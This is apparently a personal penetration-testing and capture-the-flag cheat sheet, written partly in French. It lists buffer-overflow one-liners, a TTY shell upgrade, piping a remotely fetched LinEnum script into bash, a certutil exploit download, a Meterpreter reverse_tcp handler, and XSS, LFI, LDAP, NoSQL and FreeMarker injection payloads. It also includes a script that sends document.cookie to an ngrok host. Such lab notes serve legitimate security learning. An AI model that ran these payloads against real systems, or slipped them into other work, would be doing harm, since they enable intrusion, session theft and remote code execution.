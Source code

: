 # FISHINGIG
- goldfish 

# FORENSIC

tsurugi lab

# REGGEX SUBLIME

- ()      => cree un bloc ($1)
- []      => les caracteres a chercher sont a l'interieur
- \*       => en boucle minimum 0
- \+       => en boucle minimum 1
- ^       => tant qu'on a pas (carac suivant)
- .+      => tout tant qu'on a pas de newline

examples :
        (pub fn) ([a-z_]*)([^:\n]+):([a-zA-Z-]+)([ u0-9]*) .+

# GDB

| code      | Function                          |
|-----------| ----------------------------------|
|P      | Function address |
|si     | next instruction |
|finish | End current function |

x/(?1)wx (?2) => print (?2) le nombre de cases memoires suivant l'instruction (?2)

examples :
print les 30 cases memoires suivantes de $esp
* x/30wx $esp

cat send standard entry into the pipe
* (perl -e 'print "A"x128 . "wathever"' ; cat) | ./ch15

Other implementation for x64 in Python to write the address in little endian 
- { python -c 'from struct import pack ; print "B"*280 + pack ("<Q", 0x4005e7)' ; cat' } | ./ch35

x86 chr() to write hexa
 - (python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat ) | ./ch16

examples:
```
{ python -c 'from struct import pack; print "B" * 280 + pack("<Q", 0x400556)'; cat } | ./binaire 
```
```
( python -c 'print chr(0x08)*4 + "\xbc\xfa\xff\xbf"' ; cat) | binaire
```

# REVERSE SHELL
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

# BASH

--noprofile
Do  not  read  either  the system-wide startup file /etc/profile or any of the personal
initialization files ~/.bash_profile, ~/.bash_login, or ~/.profile.  By  default,  bash
reads these files when it is invoked as a login shell (see INVOCATION below).

--norc 
Do  not  read  and execute the system wide initialization file /etc/bash.bashrc and the
personal initialization file ~/.bashrc if the shell is interactive.  This option is  on 
by default if the shell is invoked as sh.

# PRIVESC

### LINUX
Get proper TTY shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
or 
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=screen
ctrl + z 
stty raw -echo; fg
```

Create simple http server
```
python3 -m http.server
```

Curl a file and pipe it to bash
```
curl 10.10.14.249:9999/LinEnum.sh | bash
```
wget a file 
```
wget -O LinEnum.sh 10.10.14.249:9999
```
List processes
```
ps auxwww
```
Binaries capabilities
```
getcap -r / 2>/dev/null
```
Analyze file
```
file "yolo"
```
Find SUID files
```
find / -perm -4000 -exec ls -l {} \; 2>/dev/null
```
Start a bash without a profile
```
sh -i /home/nobody/.ssh/ssh_key USER@IP -t bash --noprofile --norci  
```                                                                 
### WINDOWS

Download file PowerShell
```
certutil -urlcache -f http://10.10.14.28:8000/41020.exe 41020.exe
```
# CRYPTO
```
cat file | 
```
Decode openssl -salted
```
bruteforce-salted-openssl -t 6 -f ~/Téléchargements/rockyou.txt -c AES-256-CBC -d SHA256 decoded_drupal.txt -1
```
Encode openssl
```
openssl enc -in LEFICHIERDENTREE -out LEFICHIERDESORTIE -d -AES-256-CBC -md sha256 -pass 'pass:LEPASSQUETATROUVE'
```

# XSS
```
'onfocus="alert(1)"autofocus='
```

# LFI 

```
index.php?file=php://filter/convert.base64-encode/resource=config # will append ".php" at the end
```

## NGROK

```
<script>window.location.href='http://ngrok.io/?cookie='%2bdocument.cookie</script>
```

# METERPRETER

Handle connexions
```
use exploit/multi/handler
```
Windows handler
```
set payload windows/meterpreter/reverse_tcp
```
Interact with sessions
```
sessions -i 1                                   
```
background the meterpreter so we can use other tools
```
ctrl + z
```

windows exploit suggester (session number need to be added to the options)
```
use post/multi/recon/local_exploit_suggester
```


# DIVERS
```
socat tcp-listen:2222, fork tcp 192.168.100.12:22
```

LDAP injection tester username avec ) si error
```
username=* pass=*)(& 
```
### nosql
Regex to use until you have the good size then inser chars before the '.' who means "Everything"
```
NOSQL usr_name[$ne]=h4cker&usr_password[$ne]=abc [$ne] == OK
NOSQL usr_name[$regex]=.{1}&usr_password[$ne]=abc 
```

## template injection 
```
https://portswigger.net/blog/server-side-template-injection 
```
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("cat SECRET_FLAG.txt") }
```
